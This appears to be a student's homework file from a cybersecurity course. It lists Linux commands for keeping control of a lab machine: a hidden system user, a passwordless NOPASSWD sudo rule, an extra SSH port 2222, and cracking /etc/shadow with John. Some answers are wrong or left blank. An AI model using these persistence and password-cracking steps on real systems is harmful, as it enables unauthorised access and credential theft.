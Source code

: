 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:

    - `sudo usermod -g 400 sysd`

4. Give your secret user the same GID:
  
  - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `sudo visudo`
   - Once the visudo file is open, pasted `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under root

6. Test that `sudo` access works without your password:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
 - Adding ports to the SSH for connection by editing the sshd_config
 `sudo nano /etc/ssh/sshd_config`
    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `Your solution command here`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - switch to the root user with `sudo su` and then using John `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

